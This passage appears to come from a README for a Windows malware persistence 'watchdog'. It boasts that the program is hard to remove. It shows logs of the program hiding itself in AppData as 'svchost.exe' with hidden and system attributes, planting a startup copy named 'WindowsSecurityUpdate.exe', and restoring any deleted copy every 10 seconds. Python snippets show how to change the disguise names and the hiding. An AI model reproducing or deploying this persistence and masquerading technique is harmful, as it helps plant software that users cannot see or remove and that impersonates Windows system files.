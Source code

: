 **Why It's Hard to Remove:**
- ✅ Restores itself every 10 seconds while running
- ✅ Hidden AppData copy is not visible in normal explorer
- ✅ Runs on every boot automatically
- ✅ Multiple copies protect each other

---

## 📊 Monitoring Logs

The watchdog logs all actions:

```
[STARTUP WATCHDOG] Deployed original to AppData: C:\Users\...\svchost.exe
[STARTUP WATCHDOG] Hidden AppData exe with +h +s attributes
[STARTUP WATCHDOG] Created startup folder copy: C:\Users\...\WindowsSecurityUpdate.exe
[STARTUP WATCHDOG] Monitoring thread started
[STARTUP WATCHDOG] ✅ Persistence established with auto-restore
```

When file is deleted:
```
[STARTUP WATCHDOG] ⚠️ Startup copy DELETED! Restoring...
[STARTUP WATCHDOG] ✅ Restored: C:\Users\...\WindowsSecurityUpdate.exe
```

---

## ⚙️ Configuration

### Monitoring Interval
Change sleep time in watchdog thread:
```python
time.sleep(10)  # Check every 10 seconds
```

### File Names
Customize in function:
```python
appdata_exe = os.path.join(..., 'svchost.exe')        # Change here
startup_exe = os.path.join(..., 'WindowsSecurityUpdate.exe')  # Change here
```

### Hide Attributes
Modify hiding behavior:
```python
subprocess.run(['attrib', '+h', '+s', appdata_exe])  # +h +s = hidden + system
```

---

## 🎯 Advantages
